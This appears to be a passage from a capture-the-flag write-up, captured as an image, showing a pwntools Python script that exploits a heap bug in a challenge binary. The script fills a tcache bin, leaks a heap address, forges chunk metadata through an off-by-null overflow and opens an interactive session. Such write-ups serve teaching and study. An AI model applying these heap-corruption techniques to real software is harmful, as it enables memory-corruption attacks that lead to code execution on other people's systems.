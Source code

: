 ```python

    idx = None
    previdx = None
    while (idx := contents.rfind(b'\0', 0, idx)) != -1:
        # Write what goes between the null we are considering now, and the
        # one we considered the last iteration
        if len(contents[idx + 1:previdx]) != 0:
            r.write(b"Y" * (idx + 1) + contents[idx + 1:previdx]); sleep(deltat)
        # Place the null where it belongs
        r.write(b"Z" * (idx - 1) + b'\n'); sleep(deltat)
        previdx = idx
    r.write(contents[:previdx]); sleep(deltat)

### Fill tcache bin for 0x100 ###
log.info("Filling tcache bin 0x100")
log.info("Allocating 0x100") # First one is for free
create_chunk(0x100)
for i in range(6):
    log.info("Allocating 0x%03x" % (0x1f0 - (i * 0x10)))
    create_chunk(0x1f0 - (i * 0x10))
log.info("Allocating 0x100 (overflowing)")
r.write(b"A" * (0x100 - 9) + b'\n' + b'\0'); sleep(deltat)
for i in range(5):
    log.info("Allocating 0x%03x (overflowing)" % (0x1f0 - (i * 0x10)))
    r.write(b"A" * (0x1f0 - (i * 0x10) - 9) + b'\n' + b'\0'); sleep(deltat)
# Last one doesn't need to be overflowed
log.info("Allocating 0x1a0")
create_chunk(0x1a0); sleep(deltat)

### Leak heap ###
r.clean()
log.info("Allocating 0x100 (leaking)")
create_chunk(0x100, b"A")
heap = int.from_bytes(r.read()[-6:], "little") - 0xa41
log.info("Heap : 0x%06x" % heap)

### Insert a chunk in unsorted ###
log.info("Allocating 0x20")
create_chunk(0x20)
log.info("Allocating 0x110")
data  = b''
data += b"A" * (0x100 - 0x8)
data += p64(0x21) # Size of our fake next chunk
create_chunk(0x110, data)

log.info("Allocating 0x20 (overflowing)")
data  = b''
data += b"A" * (0x20 - 0x10)
data += p64(0x20) # 0x110 chunk's prev_size
data += b'\0'     # Off-by-null into 0x110 chunk's size
create_chunk(0x20, data)

log.info("Allocating 0x110")
r.write(b"A" * (0x20 - 8 + 1)) # Reach nullbyte introduced when allocating 0x20

r.interactive()
```
Now let's pick up where we left it, yes?
